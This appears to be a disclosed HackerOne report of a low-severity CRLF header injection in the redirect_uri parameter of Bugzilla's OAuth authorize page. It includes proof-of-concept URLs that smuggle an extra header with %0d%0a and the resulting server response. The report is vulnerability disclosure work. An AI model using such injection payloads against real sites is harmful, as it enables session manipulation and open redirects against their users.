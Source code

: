 # Security bug https://bugzilla.mozilla.org/oauth/authorize - CRLF Header injection via "redirect_uri" parameter

## Report Details
- **Report ID**: 2147132
- **URL**: https://hackerone.com/reports/2147132
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-09-13T21:53:55.098Z
- **Disclosed**: 2023-10-28T14:57:49.805Z

## Reporter
- **Username**: oja
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
## Summary:
CRLF / HTTP Header Injection.
Allows you to set any headers/etc (Set-Cookie...)
Page: https://bugzilla.mozilla.org/oauth/authorize
Parameter: redirect_uri

## Steps To Reproduce:
PoC - does not require authorization:

1. https://bugzilla.mozilla.org/oauth/authorize?client_id=&redirect_uri=%0d%0axxx:something&response_type=code
2. or (with true redirect): https://bugzilla.mozilla.org/oauth/authorize?client_id=&redirect_uri=\\name.tld%0d%0axxx:something&response_type=code
HTTP response:
```
HTTP/2 302
server: nginx
date: Tue, 21 Feb 2023 12:04:22 GMT
content-length: 0
content-security-policy: default-src 'self'; worker-src 'none'; connect-src 'self' https://product-details.mozilla.org https://www.google-analytics.com https://treeherder.mozilla.org/api/failurecount/ https://crash-stats.mozilla.org/api/SuperSearch/; font-src 'self' https://fonts.gstatic.com; img-src 'self' data: blob: https://secure.gravatar.com; object-src 'none'; script-src 'self' 'nonce-kYhs2ysp5D5M1gt2i2uKTFaJyxLN8Qm7O112v7Vt6J4dWGrf' 'unsafe-inline' https://www.google-analytics.com; style-src 'self' 'unsafe-inline'; frame-src https://crash-stop-addon.herokuapp.com; frame-ancestors 'self'; form-action 'self' https://www.google.com/search https://github.com/login/oauth/authorize https://github.com/login https://phabricator.services.mozilla.com/ https://people.mozilla.org
location:
xxx: something?error=invalid_scope
referrer-policy: same-origin
strict-transport-security: max-age=31536000; includeSubDomains
strict-transport-security: max-age=31536000
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
via: 1.1 google
alt-svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000
```

## Impact

## Summary:
Possible manipulation of user session / open redirect.

## Attachments
No attachments

